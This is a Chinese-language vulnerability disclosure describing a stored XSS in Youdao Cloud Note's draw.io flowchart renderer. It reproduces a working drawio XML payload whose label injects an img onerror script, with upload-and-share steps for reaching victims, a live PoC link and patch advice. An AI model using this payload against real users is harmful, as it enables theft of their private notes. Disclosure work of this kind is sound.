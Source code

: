 ```yaml
---
layout: post
title:  "中危：有道云笔记网页端渲染流程图存在存储型XSS漏洞"
date:   2024-03-17 10:26:18 +0800
categories: xss
---
```


## Name

> 有道云笔记网页端渲染流程图存在存储型XSS漏洞

## Weakness
> 存储型XSS

## Severity
> 中危

## URL
- POC网页: [https://note.youdao.com/s/QJo17hDz](https://note.youdao.com/s/QJo17hDz)
- 视频链接：POC视频链接：[https://pan.baidu.com/s/1nkL49AiaSa4YiRXic_qcLQ](https://pan.baidu.com/s/1nkL49AiaSa4YiRXic_qcLQ) 提取码：1314

## Key Payload

```
<mxfile host="Electron" modified="2022-05-01T12:59:04.467Z" agent="5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) draw.io/17.4.2 Chrome/100.0.4896.60 Electron/18.0.1 Safari/537.36" etag="kiR_NjkTd37TBbovy8cU" compressed="false" version="17.4.2" type="device">
  <diagram id="_Y4cO9PIdA5klW6TnyFV" name="Page-1">
    <mxGraphModel dx="1102" dy="714" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="291" pageHeight="413" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <UserObject label="&lt;select>&lt;iframe>&lt;/select>&lt;img src=x onerror=alert(document.domain)>" tooltip="" id="kX_el6IuBEZSOJuKbBye-1">
          <mxCell style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
            <mxGeometry x="150" y="170" width="90" height="40" as="geometry" />
          </mxCell>
        </UserObject>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
```

## Summary

网易有道云笔记可以上传流程图笔记，该笔记是xml格式的drawio文件。有道云笔记采用drawio插件对该文件进行渲染，然而，该插件版本过时并且存在存储型XSS漏洞。由于笔记可以分享，将分享链接发送给受害者后，即可控制受害者客户端，由此能够获取受害者的所有笔记和笔记内容，造成严重的用户隐私数据泄露。

### Detail

#### Trigger
1. 将下面payload保存为drawio文件，命名为xss.drawio。

    ```
    <mxfile host="Electron" modified="2022-05-01T12:59:04.467Z" agent="5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) draw.io/17.4.2 Chrome/100.0.4896.60 Electron/18.0.1 Safari/537.36" etag="kiR_NjkTd37TBbovy8cU" compressed="false" version="17.4.2" type="device">
    <diagram id="_Y4cO9PIdA5klW6TnyFV" name="Page-1">
        <mxGraphModel dx="1102" dy="714" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="291" pageHeight="413" math="0" shadow="0">
        <root>
            <mxCell id="0" />
            <mxCell id="1" parent="0" />
            <UserObject label="&lt;select>&lt;iframe>&lt;/select>&lt;img src=x onerror=alert(document.domain)>" tooltip="" id="kX_el6IuBEZSOJuKbBye-1">
            <mxCell style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
                <mxGeometry x="150" y="170" width="90" height="40" as="geometry" />
            </mxCell>
            </UserObject>
        </root>
        </mxGraphModel>
    </diagram>
    </mxfile>
    ```

2. 登录有道云笔记，[https://note.youdao.com/](https://note.youdao.com/). 点击左上侧“新建”，选择“上传文件”，将上一步的文件上传。

    ![save](/assets/images/youdaoyun2/save.png)

3. 上传后，打开上传的流程图，xss触发。
    
    ![drawxss](/assets/images/youdaoyun2/drawxss.png)

4. 将该笔记分享，发送给受害者打开，同样触发xss。

    ![share](/assets/images/youdaoyun2/share.png)

5. 原因：drawio原始文件中，没有对UserObject元素的label字段进行过滤，导致label字段的xss得到执行。详见：[https://github.com/jgraph/drawio/discussions/2791](https://github.com/jgraph/drawio/discussions/2791)

### Proof
请提供截图或视频

POC视频链接：[https://pan.baidu.com/s/1nkL49AiaSa4YiRXic_qcLQ](https://pan.baidu.com/s/1nkL49AiaSa4YiRXic_qcLQ)
提取码：1314

## Impact

该漏洞影响点击分享链接的用户，攻击者可以注入xss脚本获取受害者所有笔记ID和笔记内容，造成严重的敏感信息泄露。

## Patch advice

1. 升级渲染drawio的插件到最新版本

